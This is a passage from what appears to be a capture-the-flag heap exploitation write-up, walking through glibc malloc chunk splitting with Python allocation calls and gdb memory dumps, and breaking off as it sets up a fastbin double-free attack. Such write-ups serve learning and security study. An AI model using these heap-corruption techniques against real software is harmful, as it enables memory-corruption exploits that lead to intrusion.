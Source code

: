 It's also known that when there's no fastbin, smallbin code
will serve back the request. Meaning, we should expect our new allocated fast chunk to be placed where the initual chunk 0 was.

```python
alloc(0x68, 'C'*10) # chunk 2
```

```
(gdb) x/60gx 0x0000000000603000
0x603000:	0x0000000000000000	0x0000000000000071  <-- chunk 2 [in use]
0x603010:	0x4343434343434343	0x00007ffff70a4343
0x603020:	0x0000000000000000	0x0000000000000000
0x603030:	0x0000000000000000	0x0000000000000000
0x603040:	0x0000000000000000	0x0000000000000000
0x603050:	0x0000000000000000	0x0000000000000000
0x603060:	0x0000000000000000	0x0000000000000000
0x603070:	0x0000000000000000	0x00000000000000a1  <-- unsorted bin
0x603080:	0x00007ffff7dd37b8	0x00007ffff7dd37b8
```

Look at that! Our fast chunk was indeed placed there! Malloc indeed split the free'd small chunk. Ofcourse in order for malloc to keep things the way they were, the heap state was organized in such way
that the free'd small chunk can be now found at `0x603070` with size `0xa0` (0x111 - 0x71 = 0xa0) The `1` in `0xa1` is there to signify the fact that the previous chunk is free).

```python
alloc(0x68, 'D'*10) # chunk 3
```

```
(gdb) x/60gx 0x0000000000603000
0x603000:	0x0000000000000000	0x0000000000000071  <-- chunk 2 [in use]
0x603010:	0x4343434343434343	0x00007ffff70a4343
0x603020:	0x0000000000000000	0x0000000000000000
0x603030:	0x0000000000000000	0x0000000000000000
0x603040:	0x0000000000000000	0x0000000000000000
0x603050:	0x0000000000000000	0x0000000000000000
0x603060:	0x0000000000000000	0x0000000000000000
0x603070:	0x0000000000000000	0x0000000000000071  <-- chunk 3 [in use]
0x603080:	0x4444444444444444	0x00007ffff70a4444
0x603090:	0x0000000000000000	0x0000000000000000
0x6030a0:	0x0000000000000000	0x0000000000000000
0x6030b0:	0x0000000000000000	0x0000000000000000
0x6030c0:	0x0000000000000000	0x0000000000000000
0x6030d0:	0x0000000000000000	0x0000000000000000
0x6030e0:	0x0000000000000000	0x0000000000000031
0x6030f0:	0x00007ffff7dd37b8	0x00007ffff7dd37b8
```

Once again the smallchunk in the unsorted binlist was split (0xa1 - 0x71 = 0x31).  

### Fastbin Attack

The time has come. We've allocated 2 fast chunks, time to perform the [fastbin attack](https://github.com/shellphish/how2heap/blob/master/fastbin_dup.c). Let's trigger
the double-free bug firstly.
